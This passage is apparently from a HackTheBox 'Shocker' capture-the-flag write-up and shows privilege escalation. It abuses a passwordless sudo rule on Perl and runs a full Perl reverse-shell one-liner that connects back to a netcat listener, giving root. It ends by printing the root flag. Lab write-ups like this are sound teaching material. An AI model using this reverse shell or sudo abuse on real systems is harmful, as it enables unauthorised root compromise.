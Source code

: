 ### Privilege Escalation

We will try to escalate privilege , lets check the sudo -l .

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

This means we can run /usr/bin/perl with sudo privileges without providing password (as NOPASSWD).

Let us search for reverse-shell using Perl [PentesterMonkey](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell) and also spin another Netcat Listner on different port.

```
perl -e 'use Socket;$i="10.10.14.15";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Since we are allowed to run perl as sudo, let us use sudo .

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.14.15";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<n(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 37834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

![Root Shell](/images/htb-shocker-root.png)

We can see in the screenshot, we have got root shell (#).
Let us get the root flag.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 37834
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e9e371fd072ccff301a9492019421341
# 
```
